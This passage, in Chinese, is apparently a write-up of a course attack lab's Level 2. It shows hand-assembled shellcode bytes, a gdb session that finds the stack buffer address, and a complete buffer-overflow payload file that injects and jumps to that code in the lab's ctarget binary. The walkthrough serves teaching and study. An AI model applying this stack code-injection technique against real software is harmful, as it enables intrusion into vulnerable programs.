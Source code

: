 至此，得到了汇编语句对应的字节码：

```shell
48 c7 c7 fa 97 b9 59    /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00          /* pushq  $0x4017ec */
c3                      /* retq */
```

---

接下来，寻找缓冲区`%rsp`的起始地址，利用`gdb`：

```shell
gdb ctarget
```

打断点：

```shell
(gdb) b getbuf
```

运行：

```shell
(gdb) r -q
```

单步跟踪：

```shell
(gdb) si
```

此时执行到`4017a8: sub $0x28,%rsp`处，打印`%rsp`的值（地址）：

```shell
(gdb) p/x $rsp
```

得到输出如下：

```shell
$1 = 0x5561dc78
```

即`%rsp`的值为`0x5561dc78`，此即缓冲区的起始地址。

---

和`level 1`类似，编辑用于攻击的字符串文件`exploit.txt`（**注意注释周围的空格**）：

```shell
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi */
68 ec 17 40 00 /* pushq  $0x4017ec */
c3 /* retq */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of %rsp in getbuf */
```
